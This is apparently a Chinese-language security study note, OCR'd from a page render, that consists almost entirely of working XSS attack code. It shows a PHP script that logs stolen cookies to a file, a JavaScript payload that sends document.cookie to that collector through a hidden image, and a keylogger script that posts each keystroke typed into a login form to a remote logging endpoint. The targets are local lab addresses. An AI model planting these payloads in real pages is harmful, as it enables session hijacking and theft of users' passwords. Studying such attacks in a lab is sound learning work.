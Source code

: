 ```php
//cookie.php

<?php

$cookie=$_GET['cookie'];   //获取cookie信息
$log = fopen('cookie.txt','a');    //生成获取的cookie信息，打开文件，a是追加写模式
fwrite($log,$cookie.PHP_EOL);  //fwrite写入
fclose($log);

?>
```

```js
//cookie.js

var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src='http://127.0.0.1/xss-cookie/cookie.php?cookie='+encodeURIComponent(document.cookie);
```

![image-20240912205752575](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240912205752575.png)

> 键盘输入值获取

```html
//index.html

<html>
    <head>
        <script type="text/javascript" src="./log.js"></script>
        <meta charset="utf8">
        <form action="#" method="post" id="form1">
            <label>Username:&nbsp;&nbsp;</label>
            <input type="text" name="username"/><br/>
            <label>PassWord:&nbsp;&nbsp;</label>
            <input type="password" name="password"/><br/><br/>
            <input type="submit" value="submit"/>
        </form>
    </head>
</html>
```

```js
//log.js

document.onkeypress = function (evt) {
    evt = evt ? evt : window.event;
    key = String.fromCharCode(evt.keyCode ? evt.keyCode : evt.charCode);
    if (key) {
        var http = new XMLHttpRequest();
        var param = encodeURI(key);
        http.open("POST", "http://127.0.0.1/xss-keypess/log.php", true);
        http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        http.send("key=" + param);
    }
}
```
